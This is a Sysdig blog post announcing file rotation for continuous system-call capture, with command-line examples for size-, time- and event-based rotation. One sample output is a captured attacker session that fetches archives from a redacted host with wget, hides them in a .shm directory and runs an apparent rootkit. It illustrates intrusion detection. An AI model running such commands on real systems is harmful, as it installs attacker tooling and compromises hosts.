 ```yaml
---
ID: 1970
post_title: >
  Sysdig Continuous Capture with File
  Rotation
author: Loris Degioanni
post_excerpt: ""
layout: post
permalink: >
  https://sysdigrp2rs.wpengine.com/blog/sysdig-continuous-capture-with-file-rotation/
published: true
post_date: 2015-08-06 07:00:46
---
```

I’m excited to announce that, with <a href="http://sysdig.org" target="_blank">sysdig</a> version 0.1.102, we have released full support for one of our most commonly requested features: **file rotation for continuous capture**. 

In a nutshell, file rotation lets you automatically split sysdig traces into multiple files, and rotate these files, so that your capture doesn’t grow unbounded. If you are a tcpdump user, then this feature should look very familiar to you. 

File rotation is most useful for monitoring, troubleshooting, and post mortem analysis scenarios that require continuous capture. Given the depth and breadth of data collected by sysdig, continuous capture can quickly generate massive trace files (massive!). With file rotation, you can create simple policies that define how your trace is broken into subfiles, and how these subfiles are retained before being written over. This way, you can easily limit the disk space required for continuous capture scenarios. This effect is amplified when you mix in sysdig filters, which limit the data collected to whatever subset might be most relevant for you. 

## The Basics

Let’s start with some basic examples. 

The -C command line flag lets you split a capture into files of a specific size. For example, use this to generate files that are 1MB in size: 

<pre>> sudo sysdig -C 1 -w dump.scap</pre>

You can combine the -C flag with the -W one to tell sysdig how many files to keep. For example, this command line captures events into files that are 1MB in size, and keeps only the last 5 files on disk: 

<pre>> sudo sysdig -C 1 -W 5 -w dump.scap</pre>

You can use the -G flag as an alternative to -C, to specify a timespan instead of a file size. For example, this command line captures events into files that contain 1 minute of system activity, and keeps the last 5 minutes: 

<pre>> sudo sysdig -G 60 -W 5 -w dump.scap</pre>

Finally, you can use the -e flag if you want to include a specific number of events in each file. This command line for example saves the events into files that contain 1000 events each, and keeps only the last 5 files on disk: 

<pre>> sudo sysdig -e 1000 -W 5 -w dump.scap</pre>

## More Advanced Examples

Use case 1: your application crashes at random points in time, and when that happens you would like to see its last 10 minutes of activity. You can accomplish that with: 

<pre>> sudo sysdig -G 60 -W 10 -wdump.scap proc.name=myapp</pre>

Use case 2: You want to capture all of the commands executed in a container in the last 24 hours. Here’s how you do it: 

<pre>> sudo sysdig -G 86400 -W 1 -w dump.scap evt.type=execve or evt.type=clone and container.name=mycontainer
</pre>

The generated file is going to be very small because only the relevant system calls for the given container are going to be captured. You will be able to inspect the generated file with: 

<pre>> sysdig -r “dump.scap0” -c spy_users
</pre>

<a href="https://sysdigrp2rs.wpengine.com/fishing-for-hackers/" target="_blank">and get an output like</a>: 

<pre>5459 19:42:15 root) cd /usr/sbin
5459 19:42:15 root) mkdir .shm
5459 19:42:17 root) cd /usr/sbin/.shm
5459 19:42:18 root) wget XXX/l.tgz
5459 19:42:20 root) tar zxvf l.tgz
5459 19:42:20 root) gzip -d
5459 19:44:40 root) ps -x
5459 19:44:47 root) w
5459 19:44:50 root) passwd
5459 19:46:21 root) cd /usr/sbin
5459 19:46:21 root) wget XXX/rk.tar
5459 19:46:24 root) tar xvf rk.tar
5459 19:46:24 root) rm -rf rk.tar
5459 19:46:24 root) cd /usr/sbin/rk
5459 19:46:24 root) /bin/bash ./root exampleabcdef 1157
</pre>

Use case 3: you want to capture the last 10 minutes of output on a given logfile: 

<pre>> sudo sysdig -G 600 -W 1 -w dump.scap evt.is_io_write=true and fd.name contains mylogfile
</pre>

You will be able to inspect the generated file with: 

<pre>> sysdig -r dump.scap0 -c echo_fds
</pre>

## One more thing

One last nice feature worth mentioning: file rotation works when consuming events from a trace file as well. This is very handy because it lets you split bigger trace files into smaller ones based on your favorite criteria. 

For example, this command line takes the dump.scap file and breaks it into 5 minute long files. 

<pre>> sysdig -r dump.scap -G 300 -z -w segments.scap
</pre>

## Conclusion

File rotation is a little swiss army knife that, hopefully, will make your sysdig experience even more productive. I’m sure there are many more use cases beyond the basic ones here, and I can’t wait to see what you come up with. I’d love to hear your thoughts in the comments below, on <a href="https://github.com/draios/sysdig" target="_blank">github</a> or on <a href="https://twitter.com/sysdig" target="_blank">twitter</a>. Thanks, happy digging!